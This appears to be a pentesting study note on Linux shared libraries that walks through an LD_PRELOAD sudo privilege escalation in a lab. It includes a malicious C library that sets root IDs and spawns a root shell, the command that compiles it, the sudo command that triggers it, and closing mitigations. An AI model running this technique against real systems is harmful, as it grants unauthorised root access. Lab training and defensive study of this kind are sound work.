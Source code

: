 ```yaml
---
title: Shared libraries-  LD_PRELOAD / LD_LIBRARY_PATH
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Shared libraries: LD_PRELOAD / LD_LIBRARY_PATH

It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs.

Two types of libraries exist in Linux:

- `static libraries` (denoted by the .a file extension) 
- and `dynamically linked shared object libraries` (denoted by the .so file extension).

When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries:

- Using the `-rpath` or `-rpath-link` flags when compiling a program,
- using the environmental variables `LD_RUN_PATH` or `LD_LIBRARY_PATH`
-  placing libraries in the `/lib` or `/usr/lib` default directories
- or specifying another directory containing the libraries within the `/etc/ld.so.conf` configuration file


Additionally, the `LD_PRELOAD` environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones.

The shared objects required by a binary can be viewed using the `ldd` utility. For instance, this command  lists all the libraries required by `/bin/ls`, along with their absolute paths.

```shell-session
ldd /bin/ls
```

## LD_PRELOAD Privilege Escalation

Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges.

```bash
sudo -l
```

Output:

```shell-session
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

This user has rights to restart the openssl service as root, but since this is `NOT` a [GTFOBin](https://gtfobins.github.io/#apache) and the `/etc/sudoers` entry is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances.

However, note here `env_keep+=LD_PRELOAD`. This lets us **override functions** and execute arbitrary code **inside a privileged process**. Specifically:

- The system **does NOT clear LD_PRELOAD when using sudo**.
- We can **force `openssl` to load a malicious library (`library.so`)**.

So we can exploit the `LD_PRELOAD` issue to run a custom shared library file. Let's compile the following library:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");  // Remove LD_PRELOAD to avoid detection
    setgid(0);               // Set group ID to root
    setuid(0);               // Set user ID to root
    system("/bin/bash");     // Spawn a root shell
}

```

We can compile this as follows:

```shell-session
 gcc -fPIC -shared -o library.so library.c -nostartfiles
```

- `-fPIC`: Position-independent code (required for shared libraries).
- `-shared`: Compile as a shared library (`.so` file).
- `-nostartfiles`: Exclude standard startup files (smaller payload).


Finally, we can escalate privileges by executing **Openssl restart** with our malicious library injected. We need to specify the full path to the malicious library file.

```shell-session
sudo LD_PRELOAD=~/library.so /usr/bin/openssl restart
```


- `openssl restart` **loads `library.so` into memory**.
- The `_init()` function executes **before Openssl even starts**.
- It **grants us root privileges** and spawns a **root shell**.



### **How to Defend Against This?**

- **Remove `env_keep+=LD_PRELOAD` from sudoers!**

```
sudo visudo
```

- Remove or comment out the line:

```
# Defaults env_keep+=LD_PRELOAD`
```

- **Use `secure_path` restrictions** to prevent attackers from loading malicious libraries.
- **Ensure sudoers rules are specific and minimal** (e.g., avoid `NOPASSWD` where unnecessary).